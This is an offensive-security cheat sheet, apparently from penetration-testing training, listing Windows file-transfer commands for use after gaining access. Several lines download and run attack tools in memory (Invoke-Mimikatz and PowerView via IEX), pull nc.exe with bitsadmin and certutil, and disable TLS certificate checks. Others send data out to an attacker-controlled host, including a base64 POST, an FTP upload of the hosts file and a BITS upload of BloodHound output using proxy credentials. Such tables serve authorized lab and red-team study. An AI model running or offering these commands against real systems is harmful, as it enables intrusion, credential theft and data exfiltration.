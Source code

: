 # Transferring Files

| Command                                                                                    | Description                                                                                                           |
| ------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                    | Download a file with PowerShell                                                                                       |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`      | Execute a file in memory using PowerShell                                                                             |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                    | Upload a file with PowerShell                                                                                         |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                           | Download a file using Bitsadmin                                                                                       |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                              | Download a file using Certutil                                                                                        |
| `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("TODO="))` | Transfer file using base64 encoding (Windows decoding)                                                                |
| `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`          | Bypass “The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel." |

| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX`                                             | Bypass IE Restriction                           |
| ------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------- |
| `sudo impacket-smbserver share -smb2support share dir -user test -password test`                                   | Create SMB Server with a Username and Password  |
| `move file.dmp \\10.10.10.10\share\file.dmp`                                                                       |                                                 |
| `net use n: \\192.168.220.133\share /user:test test`                                                               | Mount the SMB Server with Username and Password |
| `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`            | Powershell base64 encode                        |
| `sudo python3 -m pyftpdlib --port 21 --write`                                                                      | Mount FTP                                       |
| `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')` | PowerShell Upload File To FTP                   |

| `Test-NetConnection -ComputerName DATABASE01 -Port 5985`                                               | Test WinRM                                                       |
| ------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------- |
| `$Session = New-PSSession -ComputerName DATABASE01`                                                    | Create a PowerShell Remoting Session to DATABASE01               |
| `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`   | Copy samplefile.txt from our Localhost to the DATABASE01 Session |
| `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session` | Copy DATABASE.txt from DATABASE01 Session to our Localhost       |

| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                                                                                                                 | File Transfert Using Bits     |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------- |
| `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`                                                                                               | File Transfert Using Bits     |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | File Transfert Using Bits     |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                                                                                                                    | File Transfert Using CertUtil |
